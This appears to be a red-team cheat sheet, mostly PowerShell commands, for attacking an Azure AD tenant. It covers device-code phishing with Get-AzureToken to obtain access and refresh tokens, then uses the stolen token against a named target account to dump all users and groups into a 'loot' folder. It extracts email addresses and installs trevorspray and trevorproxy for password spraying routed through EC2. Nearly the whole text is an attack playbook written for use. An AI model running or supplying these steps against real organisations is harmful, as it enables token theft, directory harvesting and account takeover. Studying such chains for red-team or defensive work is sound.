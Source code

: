 
## Initial Phish

### Generate a device code
```powershell
Get-AzureToken -Client Graph
```

### show tokens
```powershell
Write-Output "Access token:"
$response.access_token

Write-Output "Refresh token:"
$response.refresh_token
```

## 1st Cred - AzureAD Recon

### Connect to AzureAd and dump users/groups
```powershell
cd loot
$target = 'adelev@shrine.cloud'
Connect-AzureAD -AadAccessToken $response.access_token -AccountId $target
```


### Get all users and export to CSV
```powershell
$users = Get-AzureADUser -All $true
$users | Export-Csv -Path "users.csv" -NoTypeInformation
```

### Get all groups and export to CSV
```powershell
$groups = Get-AzureADGroup -All $true | Export-Csv -Path "groups.csv" -NoTypeInformation
```


### Extract the email addresses of the users
```powershell
$emailAddresses = $users | Select-Object -ExpandProperty UserPrincipalName
```


### Output the email addresses to a text file
```powershell
$emailAddresses | Out-File -FilePath 'emails.txt'
```


### Start 2nd Spray with emails gathered
### Alternate Spray with TrevorSpray Proxied through EC2
```powershell 
pip install git+https://github.com/blacklanternsecurity/trevorproxy
pip install git+https://github.com/blacklanternsecurity/trevorspray
```
